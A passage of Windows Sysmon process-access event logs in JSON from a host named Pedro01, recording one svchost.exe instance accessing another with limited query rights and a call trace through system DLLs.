15:36:15.091","SourceProcessGUID":"{625b42a0-6b35-62e9-1200-000000000900}","SourceProcessId":"888","SourceThreadId":"3696","SourceImage":"C:\\Windows\\system32\\svchost.exe","TargetProcessGUID":"{625b42a0-4111-62e9-4600-000000000900}","TargetProcessId":"2696","TargetImage":"C:\\Windows\\System32\\svchost.exe","GrantedAccess":"0x1000","CallTrace":"C:\\Windows\\SYSTEM32\\ntdll.dll+9c524|C:\\Windows\\System32\\KERNELBASE.dll+6a685|c:\\windows\\system32\\lsm.dll+108a0|C:\\Windows\\System32\\RPCRT4.dll+76963|C:\\Windows\\System32\\RPCRT4.dll+da036|C:\\Windows\\System32\\RPCRT4.dll+37a5c|C:\\Windows\\System32\\RPCRT4.dll+548d8|C:\\Windows\\System32\\RPCRT4.dll+2c931|C:\\Windows\\System32\\RPCRT4.dll+2c1eb|C:\\Windows\\System32\\RPCRT4.dll+1a86f|C:\\Windows\\System32\\RPCRT4.dll+19d1a|C:\\Windows\\System32\\RPCRT4.dll+19301|C:\\Windows\\System32\\RPCRT4.dll+18d6e|C:\\Windows\\System32\\RPCRT4.dll+169a5|C:\\Windows\\SYSTEM32\\ntdll.dll+333fd|C:\\Windows\\SYSTEM32\\ntdll.dll+34152|C:\\Windows\\System32\\KERNEL32.DLL+17944|C:\\Windows\\SYSTEM32\\ntdll.dll+6ce71","SourceUser":"NT AUTHORITY\\SYSTEM","TargetUser":"NT AUTHORITY\\LOCAL SERVICE"}
{"SourceName":"Microsoft-Windows-Sysmon","ProviderGuid":"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}","Level":"4","Keywords":"0x8000000000000000","Channel":"Microsoft-Windows-Sysmon/Operational","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:36:15.184Z","@timestamp":"2022-08-04T08:36:15.184Z","EventID":10,"Message":"Process accessed:\r\nRuleName: -\r\nUtcTime: 2022-08-04 15:36:15.091\r\nSourceProcessGUID: {625b42a0-6b35-62e9-1200-000000000900}\r\nSourceProcessId: 888\r\nSourceThreadId: 3696\r\nSourceImage: C:\\Windows\\system32\\svchost.exe\r\nTargetProcessGUID: {625b42a0-4111-62e9-4600-000000000900}\r\nTargetProcessId: 2696\r\nTargetImage: C:\\Windows\\System32\\svchost.exe\r\nGrantedAccess: 0x1000\r\nCallTrace: C:\\Windows\\SYSTEM32\\ntdll.dll+9c524|C:\\Windows\\System32\\KERNELBASE.dll+6a685|c:\\windows\\system32\\lsm.dll+106fe|C:\\Windows\\System32\\RPCRT4.dll+76963|C:\\Windows\\System32\\RPCRT4.dll+da036|C:\\Windows\\System32\\RPCRT4.dll+37a5c|C:\\Windows\\System32\\RPCRT4.dll+548d8|C:\\Windows\\System32\\RPCRT4.dll+2c931|C:\\Windows\\System32\\RPCRT4.dll+2c1eb|C:\\Windows\\System32\\RPCRT4.dll+1a86f|C:\\Windows\\System32\\RPCRT4.dll+19d1a|C:\\Windows\\System32\\RPCRT4.dll+19301|C:\\Windows\\System32\\RPCRT4.dll+18d6e|C:\\Windows\\System32\\RPCRT4.dll+169a5|C:\\Windows\\SYSTEM32\\ntdll.dll+333fd|C:\\Windows\\SYSTEM32\\ntdll.dll+34152|C:\\Windows\\System32\\KERNEL32.DLL+17944|C:\\Windows\\SYSTEM32\\ntdll.dll+6ce71\r\nSourceUser: NT AUTHORITY\\SYSTEM\r\nTargetUser: NT AUTHORITY\\LOCAL SERVICE","Task":"10","RuleName":"-","UtcTime":"2022-08-04 15:36:15.091","SourceProcessGUID":"{625b42a0-6b35-62e9-1200-000000000900}","SourceProcessId":"888","SourceThreadId":"3696","SourceImage":"C:\\Windows\\system32\\svchost.exe","TargetProcessGUID":"{625b42a0-4111-62e9-4600-000000000900}","TargetProcessId":"2696","TargetImage":"C:\\Windows\\System32\\svchost.exe","GrantedAccess":"0x1000","CallTrace":"C:\\Windows\\SYSTEM32\\ntdll.dll+9c524|C:\\Windows\\System32\\KERNELBASE.dll+6a685|c:\\windows\\system32\\lsm.dll+106fe|C:\\Windows\\System32\\RPCRT4.dll+76963|C:\\Windows\\System32\\RPCRT4.dll+da036|C:\\Windows\\System32\\RPCRT4.dll+37a5c|C:\\Windows\\System32\\RPCRT4.dll+548d8|C:\\Windows\\System32\\RPCRT4.dll+2c931|C:\\Windows\\System32\\RPCRT4.dll+2c1eb|C:\\Windows\\System32\\RPCRT4.dll+1a86f|C:\\Windows\\System32\\RPCRT4.dll+19d1a|C:\\Windows\\System32\\RPCRT4.dll+19301|C:\\Windows\\System32\\RPCRT4.dll+18d6e|C:\\Windows\\System32\\RPCRT4.dll+169a5|C:\\Windows\\SYSTEM32\\ntdll.dll+333fd|C:\\Windows\\SYSTEM32\\ntdll.dll+34152|C:\\Windows\\System32\\KERNEL32.DLL+17944|C:\\Windows\\SYSTEM32\\ntdll.dll+6ce71","SourceUser":"NT AUTHORITY\\SYSTEM","TargetUser":"NT AUTHORITY\\LOCAL SERVICE"}
```